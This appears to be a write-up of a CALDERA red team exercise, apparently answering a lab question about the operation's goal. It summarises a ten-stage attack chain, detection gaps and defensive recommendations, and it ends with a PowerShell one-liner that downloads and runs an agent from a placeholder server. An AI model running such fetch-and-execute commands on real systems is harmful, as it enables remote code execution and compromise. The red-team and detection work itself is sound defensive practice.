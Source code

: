 Reviewing the complete operation chain, I examined the final stages to understand what the ultimate goal was for this red team exercise.

The operation concluded with data collection and preparation for exfiltration:

Answer: _Data Staged for Exfiltration_

**Operation Analysis**

The CALDERA red team simulation provided valuable insights into our security posture:

**Attack Chain Summary:**
1. **Initial Access**: Agent deployment via social engineering simulation
2. **Execution**: PowerShell and command line execution
3. **Persistence**: Scheduled task creation for maintaining access
4. **Privilege Escalation**: Token manipulation and UAC bypass attempts
5. **Defense Evasion**: Process injection and obfuscation techniques
6. **Credential Access**: Credential dumping from memory
7. **Discovery**: System and network reconnaissance
8. **Lateral Movement**: WMI-based remote execution
9. **Collection**: Data discovery and staging
10. **Exfiltration**: Preparation for data theft

**Detection Gaps Identified:**
- Limited visibility into PowerShell execution
- Insufficient monitoring of WMI activity
- Gaps in scheduled task monitoring
- Need for improved memory analysis capabilities

**Recommendations:**

**Immediate Actions:**
1. Enhanced PowerShell logging and monitoring
2. WMI event monitoring implementation
3. Scheduled task creation alerting
4. Memory-based attack detection capabilities

**Long-term Improvements:**
1. Behavioral analysis implementation
2. User and entity behavior analytics (UEBA)
3. Advanced threat detection platform deployment
4. Regular red team exercises using CALDERA

**CALDERA Configuration Tips:**

**Agent Deployment:**
```bash
# Deploy Sandcat agent via PowerShell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://CALDERA_SERVER:8888/file/download')"
```

**Custom Ability Creation:**
- Abilities are defined in YAML format
- Each ability maps to MITRE ATT&CK techniques
- Executors define how abilities run on different platforms
